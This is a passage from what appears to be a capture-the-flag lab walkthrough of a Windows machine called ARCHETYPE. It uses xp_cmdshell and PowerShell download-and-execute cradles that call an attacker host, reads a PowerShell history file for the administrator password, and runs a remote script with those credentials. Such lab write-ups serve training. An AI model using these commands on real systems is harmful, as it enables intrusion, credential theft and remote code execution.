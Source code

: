 ```sql
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString(''http://10.10.XX.XXX/cmd.ps1'') | powershell'
```

![4342537102777.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932975802/VmpXy7dtK.png)

We've got the PS shell.

|         #          |                                         |
| ------------------ | --------------------------------------- |
| Linux Bash         | `find / -name user.txt 2>/dev/null`     |
| Windows PowerShell | `gci c:\ -Force -r -fi user.txt 2>NULL` |

> `gci` is an alias for `Get-ChildItem`

![4745490917121.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932985178/NLP8xiau_.png)

[Back to top](#contents) ⤴

# Escalating Privileges

Ok, let's try to blind shot for other `*.txt` files

```ps1
gci c:\ -r -Force -fi *.txt 2>NULL
```

![1003112787307.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932997599/kxyDmbfmN.png)

This is a persistent PowerShell history. Lets `cat` it out.

```text
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![2347245881447.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623933008469/4sbZuCgMl.png)

Sweet, additional credentials to collection.

```sh
echo 'administrator|MEGACORP_4dm1n!!' | tee -a ../.credentials
```

And it looks like a System Account. Let's try to hop into his PS Session.

```
$username = "administrator";$password = "MEGACORP_4dm1n!!" | ConvertTo-SecureString -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password;

Invoke-Command -ComputerName ARCHETYPE -Credential $cred -ScriptBlock {echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.XX.XXX/system.ps1') | powershell}
```
